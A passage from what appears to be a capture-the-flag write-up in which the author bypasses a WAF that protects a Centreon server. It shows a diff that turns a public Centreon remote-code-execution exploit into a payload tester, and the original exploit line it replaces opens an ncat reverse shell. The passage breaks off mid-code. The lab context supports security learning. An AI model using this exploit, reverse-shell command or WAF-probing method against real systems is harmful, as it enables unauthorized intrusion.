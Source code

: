 
![wafw00f on /centreon](/asset/images/wall/WafWoof2.png)

I found that curious that the Waf works only on the centreon URL, makes me think that the admin knew about the CVE and decided to put a WAF to protect it from exploitation, hopefully its a temporary mitigation.

So our goal now is to bypass that WAF, How? first enumerate what triggers it, modified the [exploit](https://gist.githubusercontent.com/mhaskar/c4255f6cf45b19b8a852c780f50576da/raw/f50ab5b4582986ca595055e53417bc2dfce1838e/centreon-exploit.py) so I could send payload from the command line, and be able to quickly test multiple entries and keep track of the results on a file.


Here are the modifications:
```bash
root@Zakali~/ROOTED/Wall# diff centreon-exploit.py. modified_exploit.py
23c23
<     print("[~] Usage : ./centreon-exploit.py url username password ip port")
---
>     print("[~] Usage : ./centreon-exploit.py url username password payload")
29,31d28
< ip = sys.argv[4]
< port = sys.argv[5]
< 
32a30
> payload = sys.argv[4]
55c53
<     poller_soup = BeautifulSoup(poller_html)
---
>     poller_soup = BeautifulSoup(poller_html,features="lxml")
69c67
<         "nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
---
>         "nagios_bin": payload,
83,84d80
< 
< 
86d81
< 
89,90c84,93
<     print("[+] Check you netcat listener !")
---
>     print(send_payload.text)
>     with  open("WAF_blacklist","a") as f: 
>         f.write("\n" +payload+"  ")
>         if "403 Forbidden" in send_payload.text :
```